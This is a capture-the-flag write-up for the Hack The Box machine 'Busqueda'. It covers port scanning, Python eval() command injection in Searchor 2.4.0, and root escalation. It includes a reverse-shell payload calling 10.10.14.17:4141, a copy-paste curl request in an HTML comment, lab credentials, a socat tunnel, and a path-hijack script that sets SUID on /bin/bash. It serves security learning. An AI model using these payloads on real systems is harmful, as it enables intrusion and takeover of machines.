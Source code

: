 ![](busqueda_banner.png)

<p align="right">   <a href="https://www.hackthebox.eu/home/users/profile/391067" target="_blank"><img loading="lazy" alt="x00tex" src="https://www.hackthebox.eu/badge/image/391067"></a>
</p>

# Enumeration

**IP-ADDR:** `10.10.11.208 searcher.htb`

****nmap scan: TCP/IP****

```bash
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 4fe3a667a227f9118dc30ed773a02c28 (ECDSA)
|_  256 816e78766b8aea7d1babd436b7f8ecc4 (ED25519)
80/tcp open  http    Apache httpd 2.4.52
|_http-title: Did not follow redirect to http://searcher.htb/
|_http-server-header: Apache/2.4.52 (Ubuntu)
Service Info: Host: searcher.htb; OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

* web server redirect host `searcher.htb`

![](screenshots/http-searcher.htb.png)

# Foothold

## Command Injection

webapp is using "Searchor" version 2.4.0 python application -> https://github.com/ArjunSharda/Searchor

There is [bug in Searchor version 2.4.0](https://github.com/ArjunSharda/Searchor/pull/130) where it is inputting user input direct `eval()` function -> https://github.com/ArjunSharda/Searchor/blob/b5e67ecc98f11bc4d66acff8e8d3a942bb770625/src/searchor/main.py#L32


Here we can inject python reverse shell in `eval()` function and get code execution -> `', exec("<PYTHON_REVERSE_SHELL>"))#`

```
', exec("import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(('10.10.14.17',4141));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn('/bin/sh')"))#
```

<!--Copy/Paste

curl 'http://searcher.htb/search' -X POST --data-raw 'engine=Accuweather&query=%27%2C+exec%28%22import+socket%2Csubprocess%2Cos%3Bs%3Dsocket.socket%28socket.AF_INET%2Csocket.SOCK_STREAM%29%3Bs.connect%28%28%2710.10.14.17%27%2C4141%29%29%3Bos.dup2%28s.fileno%28%29%2C0%29%3B+os.dup2%28s.fileno%28%29%2C1%29%3Bos.dup2%28s.fileno%28%29%2C2%29%3Bimport+pty%3B+pty.spawn%28%27%2Fbin%2Fbash%27%29%22%29%29%23'

-->

![](screenshots/http-searcher.htb-rev-shell.png)

# Privesc

## Docker inspect config dump

* There is `.git` directory in `/var/www/app` which contain some creds for "gitea"

**Creds:** `cody:jh1usoih2bkjaspwe92`

![](screenshots/local-gitea-creds.png)

* "gitea" instance running in localhost on port 

![](screenshots/local-gitea-instance.png)

* Same password work for user "svc" `sudo` and that user can run `/usr/bin/python3 /opt/scripts/system-checkup.py *` with `sudo`

![](screenshots/user-svc-sudo.png)

* We can not read `/opt/scripts/system-checkup.py`, But there is `.git` directory in `/opt/scripts`, this means these script are also available on "gitea".

![](screenshots/opt-scripts.png)

* Open a tunnel with `socat` on port 3000
```bash
./socat TCP-LISTEN:13000,fork TCP:127.0.0.1:3000 &
```

![](screenshots/socat-local-tunnel.png)

* There is no "scripts" repository in "cody" account
* THere is a another user "administrator" which has no public repository.

Running the script

![](screenshots/opt-scripts-run-1.png)

There is quite a few options in the script, But "docker-inspect" looks interesting.

It is executing docker inspect command -> https://docs.docker.com/engine/reference/commandline/inspect/

And with that we can view docker container config -> https://docs.docker.com/engine/reference/commandline/inspect/#get-a-subsection-in-json-format
```bash
sudo /usr/bin/python3 /opt/scripts/system-checkup.py docker-inspect --format='{{json .Config}}' 960873171e2e
```

![](screenshots/opt-scripts-run-docker-inspect.png)

There is a gitea database password in the config, Which is re-used in "administrator" gitea login.

**Creds:** `administrator:yuiu1hoiu4i5ho1uh`

![](screenshots/local-gitea-admin-repos.png)


from `system-checkup.py` source code,

```py
... [snip] ...

def run_command(arg_list):
    r = subprocess.run(arg_list, capture_output=True)
    if r.stderr:
        output = r.stderr.decode()
    else:
        output = r.stdout.decode()

    return output

... [snip] ...

    elif action == 'full-checkup':
        try:
            arg_list = ['./full-checkup.sh']
            print(run_command(arg_list))
            print('[+] Done!')
        except:
            print('Something went wrong')
            exit(1)

... [snip] ...

```

`full-checkup` action is running `./full-checkup.sh` from CWD and if we run it from different directory instead of `/opt/scripts` it will not found `full-checkup.sh` as it is only looking it in CWD.

We can create a `full-checkup.sh` script in a directory other then `/opt/scripts` and running the script execute `full-checkup.sh`.
```bash
echo -e '#!/bin/bash\nchmod +s /bin/bash\nls -la /bin/bash' > full-checkup.sh
chmod +x full-checkup.sh
sudo /usr/bin/python3 /opt/scripts/system-checkup.py full-checkup
```

![](screenshots/rooted.png)


